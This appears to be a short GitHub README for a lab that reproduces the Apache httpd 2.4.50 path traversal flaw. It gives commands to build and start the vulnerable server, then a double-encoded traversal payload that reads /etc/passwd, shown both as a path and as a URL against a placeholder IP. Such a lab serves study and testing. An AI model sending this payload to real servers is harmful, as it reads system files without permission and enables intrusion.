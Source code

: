 # Apache-2.4.50---Path-Traversal # setup 


apt-get update
apt-get install wget curl make gcc perl -y
apt-get install libapr1-dev libaprutil1-dev libpcre3-dev -y
wget https://archive.apache.org/dist/httpd/httpd-2.4.50.tar.gz
tar -xf httpd-2.4.50.tar.gz
./httpd-2.4.50/configure --prefix=/usr/local/apache
make && make install
httpd.conf /conf/httpd.conf


/usr/local/apache/bin/apachectl -k start


/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd

http://<ip>/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
